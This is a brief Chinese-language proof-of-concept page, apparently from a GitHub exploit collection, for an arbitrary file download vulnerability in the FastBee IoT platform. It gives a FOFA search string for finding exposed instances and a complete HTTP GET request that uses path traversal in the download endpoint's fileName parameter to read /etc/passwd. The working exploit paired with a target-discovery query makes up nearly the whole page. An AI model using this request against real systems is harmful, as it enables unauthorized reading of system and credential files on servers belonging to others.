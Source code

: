 # 蜂信物联(FastBee)物联网平台download存在任意文件下载漏洞

蜂信物联(FastBee)物联网平台download存在任意文件下载漏洞，可能导致敏感信息泄露、数据盗窃及其他安全风险，从而对系统和用户造成严重危害。

## fofa

```javascript
"fastbee"
```

## poc

```javascript
GET /prod-api/iot/tool/download?fileName=/../../../../../../../../../etc/passwd HTTP/1.1
Host:
Accept-Encoding: gzip, deflate, br
```

